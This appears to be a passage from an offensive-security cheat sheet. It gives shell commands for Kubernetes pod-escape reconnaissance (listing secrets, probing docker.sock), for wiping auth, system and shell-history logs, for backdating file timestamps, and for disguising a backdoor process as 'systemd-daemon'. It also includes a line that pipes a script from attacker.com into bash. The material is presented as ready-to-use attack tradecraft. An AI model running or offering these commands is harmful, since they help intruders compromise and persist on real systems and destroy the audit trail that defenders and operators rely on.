**Kubernetes Pod Escape**
```bash
# Check service account permissions
kubectl auth can-i --list
kubectl get secrets
kubectl get pods --all-namespaces

# Access host network
if ip route | grep -q "10.96.0.0/12"; then
    echo "Kubernetes cluster network detected"
fi

# Mount host paths
ls -la /host-root 2>/dev/null
ls -la /var/run/docker.sock 2>/dev/null
```

## Detection Evasion

### Anti-Forensics Techniques

**Log Evasion**
```bash
# Clear common log files
> /var/log/auth.log
> /var/log/syslog
> /var/log/messages
> ~/.bash_history

# Disable history logging
export HISTFILE=/dev/null
export HISTSIZE=0
set +o history

# Timestamp manipulation
touch -r /bin/ls malicious_file.sh
touch -t 202301010000 backdoor.py
```

**Process Hiding**
```bash
# Run in background with nohup
nohup ./backdoor &

# Process hiding with different names
exec -a "systemd-daemon" ./backdoor

# Memory-only execution
curl -s http://attacker.com/payload.sh | bash
```

## Tool Integration and Automation
